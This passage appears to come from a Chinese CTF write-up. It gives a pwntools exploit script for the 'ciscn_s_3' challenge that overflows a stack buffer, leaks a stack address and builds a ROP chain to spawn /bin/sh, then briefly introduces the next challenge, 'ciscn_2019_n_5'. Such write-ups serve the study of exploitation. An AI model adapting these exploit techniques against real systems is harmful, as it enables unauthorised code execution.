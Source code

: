 ```python
from pwn import *
context.log_level = 'debug'
io = process('./ciscn_s_3')
#io = gdb.debug('./ciscn_s_3','break *0x00000000004004E2')
elf = ELF('./ciscn_s_3')

padding = 0x10
payload1 = b'A'*padding+p64(elf.sym['vuln'])
io.send(payload1)
io.recv(0x20)   #这个偏移主要是gdb看出来的
ebp_addr = u64(io.recv(8))
#print('ebp_addr',hex(ebp_addr))
buf_addr = ebp_addr-0x148   #buu改成-0x118
#print('buf_addr ->',hex(buf_addr))
payload2 =b'/bin/sh\x00'
payload2 = payload2.ljust(0x10,b'\x00')
payload2 += p64(0x000000000040059A)+p64(0)+p64(1)+p64(buf_addr+0x10)+p64(0)+p64(0)+p64(0)+p64(0x0000000000400580)
payload2 += p64(0xdeadbeef)*5+p64(0x00000000004004E2)+p64(0x00000000004005a3)+p64(buf_addr)+p64(0x0000000000400517)
io.send(payload2)
io.interactive()
```

主要一步步动态调试,理解程序控制流.

# ciscn_2019_n_5

- ret2shellcode
- libc泄露

<img src="../assets/img/old_imgs/image-20231228140033033.png" alt="image-20231228140033033" style="zoom: 80%;" />
